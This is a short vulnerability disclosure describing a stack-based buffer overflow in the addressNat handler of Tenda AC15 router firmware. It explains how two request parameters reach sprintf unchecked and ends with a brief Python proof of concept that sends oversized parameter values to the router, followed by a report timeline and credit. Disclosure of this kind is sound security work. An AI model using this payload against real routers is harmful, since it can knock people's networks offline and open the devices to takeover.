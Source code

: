 # Tenda Router AC15 Vulnerability
This vulnerability lies in the `/goform/addressNat` page which influences the lastest version of Tenda Router AC15_V15.03.05.18. (The latest version is [AC15_V15.03.05.19](https://www.tenda.com.cn/download/detail-2680.html))

## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromAddressNat`.

In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v14` and `v13`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AC15/215/vlun1.png)

So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
2023-2-15: Report to CVE
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.

